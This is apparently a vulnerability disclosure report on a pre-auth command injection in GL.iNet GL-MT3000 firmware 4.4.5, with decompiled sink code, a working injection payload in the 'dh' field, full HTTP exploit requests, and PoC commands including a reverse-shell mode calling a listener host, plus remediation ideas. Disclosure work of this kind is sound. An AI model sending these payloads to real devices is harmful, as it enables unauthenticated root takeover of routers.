



# GL.iNet GL-MT3000 ovpn-server.generate_certificate(dh) Pre-Auth Command Injection to Root RCE

## Vulnerability Summary

- Researcher: coconut652-7
- Discovery date: 2026-05-09
- Vendor: GL.iNet
- Product: GL-MT3000
- Verified firmware / software version: 4.4.5
- Affected version(s): 4.4.5 confirmed; other versions not verified
- Component: `ovpn-server.generate_certificate` handling of `args.dh`
- Reachable endpoint: `POST /cgi-bin/glc`
- Reachable method / action: `object="ovpn-server"`, `method="generate_certificate"`
- Authentication: none
- Attack vector: remote
- Impact: unauthenticated remote command execution; the current report states the execution context is root
- Root cause class: OS command injection through unsafe shell command construction
- Candidate CWEs: CWE-78
- Disclosure status: private 
- CVE ID: pending

## CVE Submission-Style Summary

GL.iNet GL-MT3000 4.4.5 contains a pre-auth vulnerability in `ovpn-server.generate_certificate` reachable via `POST /cgi-bin/glc`. The vulnerable code path accepts attacker-controlled input through `args.dh` and passes it to `system()` via the shell command template `echo %s > /etc/openvpn/cert/dh1024.pem` without quoting or escaping. This allows an unauthenticated remote attacker to achieve command execution through the device web backend.

The issue was verified by an unauthenticated marker-file write to `/www/OVPN_DH_RCE_20260430.txt` followed by HTTP retrieval of that file. The current report states that the backend runs with root privileges; the included live evidence directly proves command execution and a write primitive.

## Attack Surface

The issue is reachable through the GL.iNet web backend dispatcher at `POST /cgi-bin/glc`. The request selects `object="ovpn-server"` and `method="generate_certificate"`. The attacker-controlled field is `args.dh`.

```json
{
  "object": "ovpn-server",
  "method": "generate_certificate",
  "args": {
    "dh": "..."
  }
}
```

## Authentication Boundary

This issue is pre-auth. No valid session, token, or credentials are required to reach the vulnerable code path.

Verified fact: the current report states that live testing reached `/cgi-bin/glc` without a web login, SID, `Admin-Token`, or CSRF token.

## Root Cause

### 1. Vulnerable input source

The handler reads attacker-controlled data from the JSON field `args.dh` and uses that value as the string inserted into a shell command.

### 2. Vulnerable sink

Verified fact: the current evidence set presents the vulnerable branch as equivalent to the following minimal logic:

```c
if (json_get(a1, "dh")) {
    v7 = json_string_value(json_get(a1, "dh"));
    sprintf(s, "echo %s > /etc/openvpn/cert/dh1024.pem", v7);
    system(s);
}
```

The dangerous sink is `system()` on a shell command constructed with attacker-controlled data.

### 3. Why exploitation works

- `args.dh` is attacker-controlled.
- `sprintf()` inserts that value into `echo %s > /etc/openvpn/cert/dh1024.pem` with no quoting or escaping.
- Shell metacharacters such as `;` and `#` therefore survive into the final command string.
- `system()` executes the constructed string through the shell, so the injected command runs before the intended redirection completes.

## Reverse Engineering Evidence

### Primary function / handler evidence

- file / module: `ovpn-server` RPC object; the exact on-disk module filename is not present in the current evidence set
- function name: `generate_certificate`
- function address: `N/A`
- function size: `N/A`

Relevant decompiled or source-level snippet:


### Control-flow or data-flow summary

Verified facts: `POST /cgi-bin/glc` -> `object="ovpn-server"` -> `method="generate_certificate"` -> `args.dh` -> `sprintf("echo %s > /etc/openvpn/cert/dh1024.pem", ...)` -> `system()`

## Verified Exploitation Chain

### Mode A: Marker file write

- prerequisites: network reachability to the device web interface; no authentication
- injected field / primitive: JSON field `args.dh`; shell metacharacter injection
- target path / object / resource: `/www/OVPN_DH_RCE_20260430.txt`
- verified payload:

```text
x; echo OVPN_DH_RCE_20260430 >/www/OVPN_DH_RCE_20260430.txt; #
```

Effect:

1. The attacker sends an unauthenticated `POST /cgi-bin/glc` request.
2. The backend interpolates the `dh` value into the shell command string.
3. The injected `echo` command creates the marker file under `/www`.
4. The attacker retrieves the marker over HTTP and observes the expected body.

## Live Exploitation Evidence

### PoC-generated payload

```text
x; echo OVPN_DH_RCE_20260430 >/www/OVPN_DH_RCE_20260430.txt; #
```

### PoC-sent request body

```json
{
  "object": "ovpn-server",
  "method": "generate_certificate",
  "args": {
    "dh": "x; echo OVPN_DH_RCE_20260430 >/www/OVPN_DH_RCE_20260430.txt; #"
  }
}
```

### Success condition

`/cgi-bin/glc` returns `0 {}`, and `GET /OVPN_DH_RCE_20260430.txt` returns body `OVPN_DH_RCE_20260430`.

## Why This Is Root RCE

Verified fact: the primitive is unauthenticated command execution with an arbitrary file-write effect under `/www`.

Inference: the execution context is root, as stated in the current report. The current evidence set does not include a separate `id` transcript, but the verified sink is backend shell execution in the device management path.

## Minimal HTTP Request Shape

### 1. Primary trigger request

```http
POST /cgi-bin/glc HTTP/1.1
Host: 192.168.8.1
Accept: application/json, text/plain, */*
Content-Type: application/json
Origin: http://192.168.8.1
Referer: http://192.168.8.1/
Connection: close
Content-Length: 139

{"object":"ovpn-server","method":"generate_certificate","args":{"dh":"x; echo OVPN_DH_RCE_20260430 >/www/OVPN_DH_RCE_20260430.txt; #"}}


```


```json
GET /OVPN_DH_RCE_20260430.txt HTTP/1.1
Host: 192.168.8.1
Accept: */*
Connection: close
```




## Minimal Vulnerable Flow

```text
Unauthenticated remote attacker
  -> POST /cgi-bin/glc
  -> ovpn-server.generate_certificate
  -> args.dh
  -> sprintf("echo %s > /etc/openvpn/cert/dh1024.pem", ...)
  -> system()
  -> command execution and file write under /www
  -> HTTP retrieval of the marker file
```

## PoC Command Examples

### Example command

```powershell
python .\glinet_mt3000_ovpn_server_generate_certificate_dh_preauth_rce_poc_2026-04-30.py --target 192.168.8.1 --scheme http --mode marker --wait 10
```

### Token-based or alternate mode example

```powershell
python .\glinet_mt3000_ovpn_server_generate_certificate_dh_preauth_rce_poc_2026-04-30.py --target 192.168.8.1 --scheme http --mode reverse-shell --lhost 192.168.8.100 --lport 4444 --bind 0.0.0.0 --wait 30
```

The first command verifies the confirmed marker-file write path and requires `--target`. The second exercises the PoC's alternate reverse-shell mode and additionally requires `--lhost`; the current evidence set confirms the marker mode, while the reverse-shell example reflects PoC capability rather than an included shell transcript.

## Reproduction Notes

- target environment: GL.iNet GL-MT3000 firmware 4.4.5
- network assumptions: attacker can reach the device web interface over HTTP; the live example uses `192.168.8.1`
- required attacker setup: none for marker mode; a reachable listener host for reverse-shell mode
- expected output: `0 {}` from `/cgi-bin/glc`, followed by HTTP retrieval of the marker file with the expected marker string
- common failure cases: wrong `--scheme`; marker polling times out; reverse-shell mode depends on outbound connectivity and `/usr/bin/nc` (inference for reverse-shell mode)

## Remediation Ideas

- Replace shell-based DH material writes with direct file I/O.
- Remove `system()` from this path; if helper execution is required, use fixed-argument `execve()` or `posix_spawn()`.
- Treat `dh` as data: validate DH/PEM content, enforce size limits, and reject shell metacharacters.
- Require authentication and authorization for privileged `ovpn-server` methods exposed through `/cgi-bin/glc`.
- Add regression tests for metacharacter-bearing `dh` inputs.

## Files Used in This Verification Package

```text
GLINET_MT3000_OVPN_SERVER_GENERATE_CERTIFICATE_DH_PREAUTH_RCE_CVE_REPORT_2026-04-30.md
glinet_mt3000_ovpn_server_generate_certificate_dh_preauth_rce_poc_2026-04-30.py
```
